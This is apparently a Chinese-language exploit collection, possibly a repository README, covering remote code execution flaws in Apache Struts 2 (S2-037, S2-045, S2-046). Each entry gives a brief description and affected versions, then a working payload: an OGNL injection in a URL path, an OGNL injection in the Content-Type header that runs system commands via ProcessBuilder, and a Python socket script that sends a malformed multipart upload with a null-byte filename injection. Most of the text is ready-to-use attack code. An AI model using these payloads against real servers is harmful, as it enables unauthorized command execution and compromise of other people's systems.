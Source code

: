 #### S2-037

> 当使用REST插件启用动态方法调用时，可以传递可用于在服务器端执行任意代码的恶意表达式
>
> **影响版本**：Struts 2.3.20 - Struts Struts 2.3.28（2.3.20.3和2.3.24.3除外）

poc

```java
/orders/3/%23_memberAccess%3d@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS,%23xx%3d123,%23rs%3d@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec(%23parameters.command[0]).getInputStream()),%23wr%3d%23context[%23parameters.obj[0]].getWriter(),%23wr.print(%23rs),%23wr.close(),%23xx.toString.json?&obj=com.opensymphony.xwork2.dispatcher.HttpServletResponse&content=2908&command=whoami
```

#### S2-045

> 在使用基于Jakarta插件的文件上传功能时，有可能存在远程命令执行，导致系统被黑客入侵 恶意用户可在上传文件时通过修改HTTP请求头中的Content-Type值来触发该漏洞，进而执行系统命令
>
> **影响版本**：Struts 2.3.5 – Struts 2.3.31 Struts 2.5 – Struts 2.5.10

```java
Content-Type: "%{(#nike='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='whoami').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}" boundary=----WebKitFormBoundaryXx80aU0pu6vrsV3z
```

#### S2-046

> 与s2-045类似，但是输入点在文件上传的filename值位置，并需要使用`\x00`截断
>
> **影响版本**：Struts 2.3.5 - Struts 2.3.31, Struts 2.5 - Struts 2.5.10

由于需要发送畸形数据包，简单使用原生socket编写payload

```py
import socket

q = b'''------WebKitFormBoundaryXd004BVJN9pBYBL2
Content-Disposition: form-data; name="upload"; filename="%{#context['com.opensymphony.xwork2.dispatcher.HttpServletResponse'].addHeader('X-Test',233*233)}\x00b"
Content-Type: text/plain

foo
------WebKitFormBoundaryXd004BVJN9pBYBL2--'''.replace(b'\n', b'\r\n')
p = b'''POST / HTTP/1.1
Host: localhost:8080
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_12_3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/56.0.2924.87 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.8,es;q=0.6
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryXd004BVJN9pBYBL2
Content-Length: %d

'''.replace(b'\n', b'\r\n') % (len(q), )

with socket.create_connection(('your-ip', '8080'), timeout=5) as conn:
    conn.send(p + q)
    print(conn.recv(10240).decode())
```